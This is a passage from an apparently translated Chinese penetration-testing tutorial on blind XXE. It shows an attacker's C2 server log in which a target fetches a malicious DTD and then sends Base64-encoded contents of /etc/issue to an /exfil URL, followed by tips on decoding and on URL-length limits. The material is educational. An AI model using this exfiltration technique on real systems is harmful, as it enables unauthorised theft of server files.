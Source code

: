 图 10.18：修改后的 XML 漏洞利用代码

然而，在`c2.spider.ml C2 服务器`上，我们可以看到来自目标的两个 HTTP 请求：

```
root@spider-c2-1:~/c2/xxe# php -S 0.0.0.0:80
PHP 7.0.27-0+deb9u1 Development Server started
Listening on http://0.0.0.0:80
Document root is /root/c2/xxe
Press Ctrl-C to quit.
[] 107.181.189.72:42582 [200]: **/payload.dtd**
[] 107.181.189.72:42584 [404]: **/exfil?S2FsaSBHTlUvTGludXggUm9sbGluZyBcbiBcbAo=**
[...]
```

第一个请求请求的是`payload.dtd`文件；这意味着我们已确认 XXE 漏洞。文件内容已被处理，随后的对包含我们数据的`exfil` URL 的调用几乎立即出现在日志中。

再次使用 CyberChef，Base64 解码 URL 数据后，我们得到了 XML 解析器应用服务器上`/etc/issue`文件的内容：

![Blind XXE](img/B09238_10_19.jpg)

图 10.19：CyberChef 解码 Base64 外泄数据

这种外泄方法对于较小的文件效果很好，但通过 HTTP 发送大块的 Base64 数据可能会遇到问题。大多数客户端，如 PHP 或 Java，无法处理长度超过大约 2,000 个字符的 URL。在某些情况下，最多可能允许 4,000 个字符。不同的客户端实现差异很大，因此在使用 XXE 窃取数据时，请记住这些限制。

## 远程代码执行
